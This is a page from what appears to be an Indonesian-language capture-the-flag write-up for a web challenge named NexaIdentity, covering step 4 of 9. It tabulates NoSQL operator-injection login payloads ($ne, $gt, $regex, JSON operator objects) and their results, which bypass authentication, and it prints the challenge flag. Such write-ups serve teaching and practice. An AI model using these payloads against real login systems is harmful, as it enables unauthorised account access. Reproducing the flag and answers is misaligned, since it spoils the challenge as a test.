

# NexaIdentity — Analisis

[← Overview](11-nexaidentity.md) · [Index](index.md)

> **Langkah 4/9 — Analisis.** Kami menguji beberapa bentuk pada instance live:
>
> **Titik penting:** NFX{...} · NFX{n0sql_0p3r4t0r_4uth_byp4ss}
>
> **Berikutnya:** [Eksploitasi / Solver](11-nexaidentity-05-eksploitasi-solver.md)

## 2.3 Variasi payload

Kami menguji beberapa bentuk pada instance live:

| Payload | Hasil |
|---|---|
| `email=employee@nexaidentity.test&password=wrong` | `401`, tetap di login |
| `email=&password=` | `401` |
| `email[$ne]=x&password[$ne]=x` | `302 /dashboard`, login sebagai **Nadia Kusuma** |
| `email=admin@nexaidentity.test&password[$ne]=x` | `302`, login sebagai Nadia |
| `email[$ne]=&password[$ne]=` | `302`, login sebagai Nadia |
| `email[$gt]=&password[$gt]=` | `302`, login sebagai Nadia |
| `email=admin@nexaidentity.test&password[$regex]=.*` | `302`, login sebagai Nadia |
| JSON `{"email":{"$ne":null},"password":{"$ne":null}}` | `302`, login sebagai Nadia |

Catatan: `email=admin@nexaidentity.test&password=` (tanpa operator) tetap `401`; jadi yang penting adalah objek operator, bukan hanya email admin.

## 2.4 Perbedaan flag format

- `BRIEF.md` menulis flag format `NFCTF{...}`.
- `challenge.json`/manifest dan flag aktual memakai `NFX{...}`.
- Flag yang benar adalah `NFX{n0sql_0p3r4t0r_4uth_byp4ss}` (cocok dengan `flags/web/05_nexaidentity.txt`).

### Evidence langkah ini

*Terminal evidence — `02-endpoints.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-endpoints.txt`](assets/nexaidentity/02-endpoints.txt)
